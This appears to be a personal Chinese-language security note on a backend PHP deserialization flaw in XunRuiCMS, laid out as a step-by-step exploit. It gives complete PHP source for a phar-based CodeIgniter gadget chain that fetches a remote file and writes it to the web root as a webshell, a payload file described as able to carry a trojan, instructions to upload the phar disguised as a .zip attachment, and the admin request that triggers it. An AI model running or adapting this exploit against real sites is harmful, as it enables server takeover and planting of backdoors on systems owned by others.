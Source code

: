 ```yaml
---
title: 讯睿cms后台反序列化漏洞
date: 2024-08-04 22:54:17
secret: "true"
---
```


tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off

```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```


前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
![Pastedimage20240804230432.png](../资源文件/图片/Pasted-image-20240804230432.png)]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
![Pastedimage20240804231218.png](../资源文件/图片/Pasted-image-20240804231218.png)]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

![Pastedimage20240804231519.png](../资源文件/图片/Pasted-image-20240804231519.png)]
即可在指定目录生成文件

![123.png](../资源文件/图片/123.png)
